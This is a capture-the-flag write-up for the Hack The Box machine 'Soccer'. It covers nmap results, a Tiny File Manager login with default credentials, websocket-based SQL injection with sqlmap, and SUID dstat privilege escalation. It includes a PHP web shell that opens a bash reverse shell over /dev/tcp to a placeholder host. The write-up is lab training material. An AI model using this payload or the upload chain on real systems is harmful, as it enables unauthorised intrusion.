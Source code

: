 # Soccer HTB

## Vulnerabilities:

* Arbitrary file upload
* RCE
* SQLI
* sqlmap
* websocket
* enumeration
* Tinty File Manager file upload
* missconfiguration
* php
* python
* dstat



## NMAP:

```nse
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
9091/tcp open  xmltec-xmlmail syn-ack ttl 63



PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Thu, 08 Jun 2023 16:01:49 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Thu, 08 Jun 2023 16:01:49 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
```


## Discovering:

subdomain fuzz:

none

directory fuzz:

/tiny file manager login
Default username/password: admin/admin@123


uploaded a malicious php file we can perform rce

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/<ip>/port 0>&1'");
?>
```

## Exploit:
performing a ws script you can make a request with web socket
and get an "id" parameter in our local host to get information using
sqlmap and retrieve the whole database information
and get the ssh session as **player** user



## Privilege scalation:
check the configuration with

```bash
find / -perm -4000 2>/dev/null
```

check for the file *dstat*
and searching further you can find the way to get
session as root because the file dstat has SUID
permissions. And get the root





### Resume:

* Tiny file manager
* search for default credentials
* Get access as admin
* Upload a malicious file as admin with php executable code
* Get a reverse shell and find the network tcp local running
* Add a new subdomain found and start the intercepting
* use python to get a sqli in our localhost with websocket-client
* SQLMAP to get the vulnerable tables and get the user with credentials to peform ssh login
* Check with Linpeas the vulnerable files or make a suitable find over the SUID files in the **/** and finally get a reverse shell as root
